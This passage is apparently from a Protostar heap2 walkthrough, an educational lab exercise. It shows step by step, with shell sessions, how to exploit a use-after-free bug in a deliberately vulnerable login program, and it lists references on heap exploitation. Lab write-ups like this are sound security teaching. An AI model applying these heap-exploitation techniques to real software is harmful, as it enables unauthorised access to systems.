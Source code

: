 In this program, we have a login service that reads data from `stdin`. Our
goal here is to have the program print "you have logged in already!".

We have several commands, `auth`, `reset`, `service` and `login`, that we can
call.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth test
[ auth = 0x804c008, service = (nil) ]
service AAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c018 ]
reset
[ auth = 0x804c008, service = 0x804c018 ]
```

We notice that the `auth` pointer still points to the original memory location
after the `reset` command, which `free()`'s the allocated memory. Subsequent
`login` commands then accesses the freed memory with `auth->auth`. This is a
good example of the classic Use-After-Free vulnerability. If we can overwrite
the original struct's `auth` member with `1`, we can successfully exploit this.

With glibc's malloc, heap chunks are assigned on a "best fit" basis. This can
be manipulated with various techniques (heap spraying, heap feng shui) to set
up heap memory in a way that is useful for exploitation.

For this level though, we can keep things very simple. We can allocate a
`auth` struct and free it with the `reset` command. Next, we use the `service`
command which calls the `strdup()` function that allocates memory on the heap.
We see that `strdup()` allocates memory at the same location as the freed
`auth` struct since there are no other chunks in use.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service BBBB
[ auth = 0x804c008, service = 0x804c008 ]
```

We can write multiple "1"'s to the heap-allocated buffer with `strdup` that
will eventually overwrite the original struct's `auth` member. This level is
simple enough that we don't need to be very precise about what or how many
bytes we write with `strdup()`.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service 111111111111111111111111111111111111
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[protostar-format-writeup]: 2018-05-27-protostar-walkthrough-format
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap